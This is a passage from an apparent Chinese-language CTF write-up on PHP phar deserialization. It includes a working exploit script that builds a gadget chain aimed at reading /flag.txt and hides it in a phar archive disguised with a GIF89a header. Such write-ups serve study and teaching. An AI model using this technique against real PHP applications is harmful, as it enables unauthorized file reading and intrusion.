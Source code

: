 只要将这个 db 换成 File 类就行，但是呢会发现没有反序列化函数，咋去触发这个析构魔术方法呢，这个就是涉及到 phar 了，反正我也是第一次听，下面写个简单理解

```
我的理解，我们可以把一个序列化的对象，储存在phar格式的文件中，生成后（一定要是生成后），即使我们把格式给改了，也不影响它的作用：用一些文件包含函数，如果我们以phar://协议去访问这个文件，那么就可以把那个对象给反序列化
```

php 一大部分的文件系统函数在通过 phar://伪协议解析 phar 文件时，都会将 meta-data 进行反序列化，别人测试后，受影响的函数如下

![](20180908164943-2151deae-b344-1.png)

然后给大家一个讲 phar 的链接[初探 phar:// - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2715)我就不班门弄斧了

6.然后呢我就尝试把上面这个给弄成一个 phar 文件，然后触发反序列化，但仔细一想，这么写压根都不会在页面回显，那我为什么不利用它本身就有的一个 Call（）魔术方法呢，因为这样会在页面回显，然后就仿照网上一些 wp 自己写了一个 exp

![](image-20231104183235152-1024x483.png)

```
<?php
Class User{
    public $db;

    public function __construct(){
        $this -> db = new FileList();
    }

}

Class FileList{
    private $files;
    private $results;
    private $funcs;

    public function __construct(){
        $this -> files = array(new File());
        $this -> results = array();
        $this -> funcs = array();
    }

}

class File
{
    public $filename;

    public function __construct(){
        $this -> filename = "/flag.txt";
    }

}

$user = new User();

$phar = new Phar("f1ag.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($user);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
